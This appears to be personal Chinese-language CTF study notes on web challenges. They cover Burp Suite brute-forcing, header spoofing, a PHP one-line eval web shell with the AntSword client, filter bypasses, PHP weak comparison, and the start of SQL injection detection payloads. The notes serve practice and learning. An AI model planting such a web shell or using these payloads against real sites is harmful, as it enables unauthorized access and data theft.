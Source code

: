 # Web

### 题型：

#### 爆破：

send to 测试器，选取字段，字典——观察length长度不一样的部分可能为密码

#### 本地访问：

repeater—重发器——添加X-Forwarded-For:127.0.0.1或者全复制再send（若要求从某网站访问，则更改Refer:后的内容，Browser是更改User-Agent）

#### 一句话木马：

<?php @eval ($_POST[ 'a' ]); ?>

post['    ']内为密码；

蚁剑——右键添加数据——复制网址，密码，测试连接，添加，flag（根目录下）

#### Cookie

BP——抓，历史——点开cookie——根据提示访问

#### 双写绕过

如果源代码中将其替换为空，使得无法进行，可将字符串双写（在字符串中间再次插入字符串），使其替换后保留想要的字符串

get :?参数名=参数值

post：用post data上   加  参数名=参数值

strpos：查找字符串在你输入的什么位置，找到输出真，否假

使用data协议可以绕过验证：abc = data://text/plain;bas64 , aGVsbG8xMjM =

#### 弱类型

“===”严格

“==”不严格(会先将字符串转化成相同的，再比较)

#### SQL

##### 1.

##### 2.判断是字符型还是数字型

SQL测试输入    1' or '1234'='1234

在数字型注入中，由于变量没有加引号，所以拼接后sql语法错误，直接报错，如果提示为sql语法错误，直接判断为数字型注入

在字符型注入中，其与原本的引号前后完全闭合，且逻辑成立，所以会回显user_id为1的数据；而1' or '1234'='123这个语句，前后引号闭合但逻辑不成立，所以结果为空。

##### 3.猜解SQL查询语句中的字段数

注：字段数即SELECT 后有几个字段
